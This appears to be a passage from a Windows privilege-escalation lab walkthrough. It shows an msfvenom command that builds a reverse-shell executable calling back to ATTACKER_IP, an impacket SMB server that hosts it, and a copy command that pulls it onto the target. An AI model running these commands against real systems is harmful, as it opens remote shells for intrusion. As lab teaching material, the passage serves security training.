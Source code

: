 ![](the-beginning.png)

On the attacking machine, i.e. the one we're using, we can generate a payload using msfvenom. This'll be a TCP reverse shell. 

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o reverse.exe
```

Furthermore, we'll need to start an SMB server on our machine. This will allow us to transfer the reverse shell executable generated by `msfvenom` (`reverse.exe`) to our target machine. This can be achieved by using one of the python scripts on impacket:

```console
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

***NOTE***: It's preferable to start the server after navigating to the directory containing `reverse.exe`.

Once, we have the SMB server up, we can head back to the VM and fetch our reverse shell by executing the following:

```console
$ copy \\ATTACKER_IP\kali\reverse.exe C:\PrivEsc\reverse.exe
```
